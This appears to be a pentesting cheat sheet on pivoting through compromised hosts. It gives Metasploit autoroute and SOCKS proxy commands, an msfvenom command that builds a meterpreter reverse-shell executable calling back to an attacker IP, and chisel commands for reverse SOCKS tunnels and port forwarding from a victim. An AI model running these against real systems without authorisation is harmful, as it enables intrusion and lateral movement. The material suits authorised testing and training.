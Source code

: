 ```bash
# Autoroute module
msf5 > use post/multi/manage/autoroute
msf5 post(multi/manage/autoroute) > set SESSION 1
msf5 post(multi/manage/autoroute) > set CMD add
msf5 post(multi/manage/autoroute) > set SUBNET 10.42.42.0
msf5 post(multi/manage/autoroute) > set NETMASK /24
msf5 post(multi/manage/autoroute) > set CMD print
msf5 post(multi/manage/autoroute) > run

# On windows you can use post/windows/gather/arp_scanner to discover other machines
# On Linux you can try arp -a

# SOCKS proxy setup
msf5 > use auxiliary/server/socks4a
msf5 auxiliary(server/socks4a) > set SRVPORT 1081
msf5 auxiliary(server/socks4a) > run

# Now, equivalent to a dynamic SSH
```

```bash
# Double Pivoting
# Reverse shell from the pwned2 to the pwned1
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.42.42.1 LPORT=8088 -f exe --platform windows --arch x64 > reverse.exe

# Setup handler and exploit the found vulnerability
```





### Chisel

### socks

```bash
./chisel server -p 8080 --reverse #Server -- Attacker
./chisel-x64.exe client 10.10.14.3:8080 R:socks #Client -- Victim
#And now you can use proxychains with port 1080 (default)

./chisel server -v -p 8080 --socks5 #Server -- Victim (needs to have port 8080 exposed)
./chisel client -v 10.10.10.10:8080 socks #Attacker
```

#### Port forwarding

```bash
./chisel_1.7.6_linux_amd64 server -p 12312 --reverse #Server -- Attacker
./chisel_1.7.6_linux_amd64 client 10.10.14.20:12312 R:4505:127.0.0.1:4505 #Client -- Victim
```



